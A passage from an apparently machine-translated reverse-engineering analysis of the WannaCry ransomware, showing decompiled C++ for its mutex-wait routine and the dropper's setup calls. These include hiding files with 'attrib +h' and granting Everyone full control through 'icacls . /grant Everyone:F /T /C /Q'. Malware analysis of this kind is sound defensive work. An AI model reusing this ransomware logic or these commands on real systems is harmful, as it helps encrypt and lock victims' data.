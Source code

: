 StartProcess function as an alternative to use a regular way to start a process, where the incoming CommandLine is already changed the name of the program for the taskche.exe path, at least with the name of this also has some confusion, and a small detail, set the non Window mode.


```C++
signed int __cdecl WaitMutex4Times(int param)
{
  int nCount; 
  HANDLE hMutex; 
  signed int result; 
  char szMutexName[100]; 

  sprintf(szMutexName, aSD, aGlobalMswinzon, 0);// Global\MsWinZonesCacheCounterMutexA
  nCount = 0;
  if ( param <= 0 )
  {
END:
    result = 0;
  }
  else
  {
    while ( 1 )
    {
      hMutex = OpenMutexA(SYNCHRONIZE, 1, szMutexName);// The right to use the object for synchronization. This enables a thread to wait until the object is in the signaled state.
      if ( hMutex )
        break;
      Sleep(1000u);
      ++nCount;
      if ( nCount >= param )
        goto END;
    }
    CloseHandle(hMutex);
    result = 1;
  }
  return result;
}
```

Whichever way you start yourself again, the program calls the above function to wait **Global \ MsWinZonesCacheCounterMutexA0** This system Mutex, and then try to wait 60 times, each time for 1 second, for a total of 60 seconds. It seems that the Named Mutex object should be in the attack module, which is a conventional assumption.

Of course, if the above methods have failed, Wannacry will not give up this only one chance to encrypt the user's data, since hidden not, then do it directly. And directly dry this part of the code and hidden after the code is the same, just merge analysis. Before you start there are some things to do:

```C++
WriteRegistry(1);
ExtractFromResource(0, WNcry);
SetBitcoinAddress();
StartProcess(CommandLine, 0, 0);            // attrib +h : Sets the hidden file attribute.
StartProcess(aIcacls_GrantEv, 0, 0);		// icacls . /grant Everyone:F /T /C /Q
if ( InitKernel32Funcs() )
```
